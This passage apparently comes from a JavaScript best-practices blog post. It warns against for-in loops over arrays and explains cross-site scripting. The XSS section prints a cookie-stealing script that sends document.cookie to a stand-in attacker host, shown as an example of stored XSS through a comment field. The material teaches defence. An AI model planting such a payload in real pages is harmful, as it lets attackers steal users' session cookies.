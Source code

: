 Then, someone else decided to add some click tracking that would catch an array of data on certain clicks. It would iterate through an array - call any methods in the array and record any data.

Two years later, no one knew why one section of the website had never worked in Internet Explorer 8.

The reason? The click tracking code looked something like this:

```js
  for(var i in myArray){
    // if i is an method, call that method
    // else track the info
  }
```

Because they had added a monkey patch to Array, and because the `for in` loop iterates over all properties on a prototype chain... they were accessing the monkey patched method and calling it when they didn't mean to be calling the method and things blew up.

I spent way too long in an Internet Explorer emulator trying to figure out what was going on with that bug than I'd like to admit.

Avoid this fate by using classic `for` loops on arrays.

```js
for(var i = 0; i < myArray.length; i++) {
  //
}
```

You can see the correct way of array iteration being used [here](https://github.com/mcschatz/breakout/blob/cd05e17be5bf83b2b79554f880f8d98038dca41d/lib/game.js#L49)


#### Cross-Site Scripting (XSS) Attack Vulnerability
Cross-site Scripting is when malicious scripts are inserted into the client-side code of a web site or application. You are vulnerable to this kind of attack when you use unvalidated or unencoded user input directly in your site.

Let's say an attacker wants to steal your users' cookies (I can't believe that's a real sentence in web development, but anyway... let's assume)

You could do something like that with this line of code:

```
<script>
  window.location='http://mysweethackingwebsite98736902/?cookie='+document.cookie
</script>
```

Now let's say that in your Blogger app, you take the contents of what someone types in a comment field - store it in the database - and then show it on a page.

Boom. Hacked.

Another example is - maybe you have a store online. Maybe you're selling very expensive t-shirts. Maybe you pull in information like price from the database.

Maybe you then run a sale that takes 10% off of the price and you do your calculation in JavaScript and then change the price on the page.
